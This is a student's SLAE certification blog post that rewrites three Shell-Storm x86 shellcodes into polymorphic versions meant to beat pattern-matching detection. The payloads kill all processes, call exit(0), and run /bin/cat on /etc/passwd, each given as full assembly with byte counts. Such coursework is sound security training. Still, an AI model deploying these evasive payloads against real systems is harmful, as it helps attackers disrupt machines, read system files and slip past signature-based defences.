


# SLAE Exam Blog Posts

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certifiation:

https://www.pentesteracademy.com/course?id=3

Student ID: PA-31074

[All Assignments](../Readme.md)
____

</br>

# Assignment 6
For the sixth assignment I need to solve the following tasks:
* Take up at least 3 shellcode from Shell-Storm and create polymorphic versions of them to beat pattern matchinng
* The polcymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

___

</br>

## Kill all linux processes shellcode

The first shellcode I want to use here is one which kills all processes in Linux and has 11 bytes. (http://shell-storm.org/shellcode/files/shellcode-212.php)
``` assembly
push byte 37
pop eax
push byte -1
pop ebx
push byte 9
pop ecx
int 0x80
```
My idea was to get rid of these push and pop instcutions. So for loading eax with 37 I just moved the value 37 in al. I used the same for replacing push byte 9 and pop ecx where I just moved 9 in cl. And for getting the -1 in ebx I just set ebx at the start to zero (with XOR) and decreasing it then by 1 to get the -1.
``` assembly
xor ebx, ebx
mov ecx, ebx
mul ebx
mov al, 37
dec ebx
mov cl, 9
int 0x80
```
So my polymorphic shellcode has 13 bytes which is compared to the original one with 11 bytes an increase of size of 20%. Theoretically the first 6 bytes can also be reduced so that the shelcode is only 7 bytes depending on the instructions / the contents of the registers before. But with the 13 bytes version we are on the safe side.

___

## Exit(0) shellcode

The second shellcode I want to change is an exit(0) shelcode with 8 bytes. (http://shell-storm.org/shellcode/files/shellcode-623.php)
``` assembly
xor eax, eax
mov al, 0x1
xor ebx, ebx
int 0x80
```
Because we need 0x1 in eax instead of a move instruction with 2 bytes we could use an inc eax which will only take 1 byte. Also we can change xor ebx, ebx to a mov instruction to change the instructions a little bit.
```
xor eax, eax
mov ebx, eax
inc eax
int 0x80
```
The changed shellcode has now a size of 7 bytes which is an decrease by nearly 15%.

Here you can see the programm running with the exit code:



___

## bin/cat /etc/passwd reader shellcode
The last shellcode is a reader of the passwd file (/etc/passwd) with the cat tool (
http://shell-storm.org/shellcode/files/shellcode-571.php). This shellcode has a size of 43 bytes. In this polymorphic version I want to play with some other machanisms and will not take a big look at the size.
So the original assembly instructions are the following:
``` assembly
xor    eax,eax
cdq    
push   edx
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   edx
push   0x64777373
push   0x61702f2f
push   0x6374652f
mov    ecx,esp
mov    al,0xb
push   edx
push   ecx
push   ebx
mov    ecx,esp
int    0x80
```
Instead of getting zero to edx with the short instruction cdq I will xor edx with itself and to get eax to zero I will multiply it with edx. Instead of pushing the whole time edx to the stack which is zero I will push eax which is also zero. Also in the 2nd push of the string arguments which is /etc/passwd we'll instead use /etc//////passwd which should also work but is increasing the whole shellcode with a normal push by 5. Also I used for the push to the stack 3 times not the normall push but instead the manual writing to the stack which also makes the shellcode much longer. In the end I add increase eax by 1 and do a XOR operation with 0xa to set this register to 0xb which is execve. 
``` assembly
xor    edx,edx
mul    edx
push   eax
push   0x7461632f
push   0x6e69622f
mov    ebx,esp
push   eax
mov    dword [esp-8], 0x61702f2f
mov    dword [esp-4], 0x64777373
sub    esp, 8
push   0x2f2f2f2f
push   0x6374652f
mov    ecx,esp
push   eax
push   ecx
push   ebx
inc    eax
xor    al, 0xa
mov    ecx,esp
int    0x80
```
So in the end my changed shellcode has 59 bytes which is compared to the original shellcode with 43 bytes and increase of nearly 37%. 

Also it is still working corectly:



